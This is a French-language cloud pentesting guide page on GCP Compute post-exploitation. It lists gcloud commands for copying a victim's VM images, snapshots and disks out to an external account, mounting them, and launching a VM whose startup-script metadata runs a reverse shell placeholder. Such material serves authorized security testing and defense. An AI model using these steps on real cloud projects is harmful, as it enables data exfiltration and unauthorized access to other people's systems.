 # GCP - Post Exploitation Compute

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Pour plus d'informations sur Compute et VPC (Réseautage), consultez :

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Exporter et inspecter les images localement

Cela permettrait à un attaquant d'**accéder aux données contenues dans des images déjà existantes** ou de **créer de nouvelles images de VMs en cours d'exécution** et d'accéder à leurs données sans avoir accès à la VM en cours d'exécution.

Il est possible d'exporter une image de VM vers un bucket, puis de la télécharger et de la monter localement avec la commande :
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Pour effectuer cette action, l'attaquant pourrait avoir besoin de privilèges sur le bucket de stockage et certainement **de privilèges sur cloudbuild**, car c'est le **service** qui sera demandé pour effectuer l'exportation.\
De plus, pour que cela fonctionne, le SA codebuild et le SA compute ont besoin de permissions privilégiées.\
Le SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` a besoin de :

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

Et le SA `<project-id>-compute@developer.gserviceaccount.com` a besoin de :

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Exporter et inspecter les instantanés et disques localement

Il n'est pas possible d'exporter directement des instantanés et des disques, mais il est possible de **transformer un instantané en disque, un disque en image** et, suivant la **section précédente**, d'exporter cette image pour l'inspecter localement.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspecter une image en créant une VM

Dans le but d'accéder aux **données stockées dans une image** ou à l'intérieur d'une **VM en cours d'exécution** depuis laquelle un attaquant **a créé une image,** il est possible d'accorder à un compte externe l'accès à l'image :
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
et ensuite créez une nouvelle VM à partir de cela :
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si vous ne pouviez pas donner l'accès à votre compte externe via l'image, vous pourriez lancer une VM en utilisant cette image dans le projet de la victime et **faire exécuter un reverse shell par les métadonnées** pour accéder à l'image en ajoutant le paramètre :
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecter un instantané/un disque en l'attachant à une VM

Avec l'objectif d'accéder aux **données stockées dans un disque ou un instantané, vous pourriez transformer l'instantané en disque, un disque en image et suivre les étapes précédentes.**

Ou vous pourriez **accorder l'accès à un compte externe** sur le disque (si le point de départ est un instantané, accordez l'accès sur l'instantané ou créez un disque à partir de celui-ci) :
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Attacher le disque** à une instance :
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montez le disque à l'intérieur de la VM :

1.  **SSH dans la VM** :

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Identifiez le disque** : Une fois à l'intérieur de la VM, identifiez le nouveau disque en listant les périphériques de disque. En général, vous pouvez le trouver sous `/dev/sdb`, `/dev/sdc`, etc.
3.  **Formatez et montez le disque** (s'il s'agit d'un nouveau disque ou d'un disque brut) :

- Créez un point de montage :

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Montez le disque :

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Si vous **ne pouvez pas donner accès à un projet externe** au snapshot ou au disque, vous devrez **effectuer ces actions à l'intérieur d'une instance dans le même projet que le snapshot/disque**.

{{#include ../../../banners/hacktricks-training.md}}
